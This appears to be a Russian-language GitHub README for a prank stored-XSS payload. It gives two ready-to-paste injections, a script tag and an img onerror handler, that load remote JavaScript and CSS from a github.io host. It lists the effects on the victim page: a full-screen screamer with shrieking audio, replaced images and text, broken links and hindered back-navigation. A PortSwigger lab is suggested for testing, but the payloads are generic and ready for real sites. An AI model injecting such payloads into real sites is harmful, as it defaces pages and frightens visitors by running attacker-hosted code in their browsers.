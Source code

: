 # Stored-XSS-scary

Код сработает только при наличии уязвимости хранимый XSS + если сайт не будет блокировать загрузку внешних скриптов и стилей. <br>
Для теста можно запустить лабараторку в https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

https://github.com/0-DAyFF13R/Stored-XSS-scary/assets/63510648/bb422629-d35f-476e-841e-461b51f6bd0e

* Страшная музыка.
* Постепенно изменяющийся цвет фона на красный.
* Прыгающий и мигающий текст.
* Частичные трудности при возвращении на предыдущую страницу.
* Замена всех изображений на скример.
* Замена текста из тегов "p", "h1", "a".
* Замена всех тегов "a" на "p".
* Скример на весь экран с криком в течение какого-то времени.

------------------------------------------

Полная версия (JS + CSS):
<br><br>Через тег "script" [288 символов]:
<br>```<script>var c=document.createElement('link');c.rel='stylesheet';c.href='//0-dayff13r.github.io/Stored-XSS-scary/styles.css';document.head.appendChild(c);var r=document.createElement('script');r.src='//0-dayff13r.github.io/Stored-XSS-scary/script.js';document.body.appendChild(r);</script>```
<br><br>Через тег "img" [300 символов]:
<br>```<img src="" alt="" onerror="var c=document.createElement('link');c.rel='stylesheet';c.href='//0-dayff13r.github.io/Stored-XSS-scary/styles.css';document.head.appendChild(c);var r=document.createElement('script');r.src='//0-dayff13r.github.io/Stored-XSS-scary/script.js';document.body.appendChild(r)">```
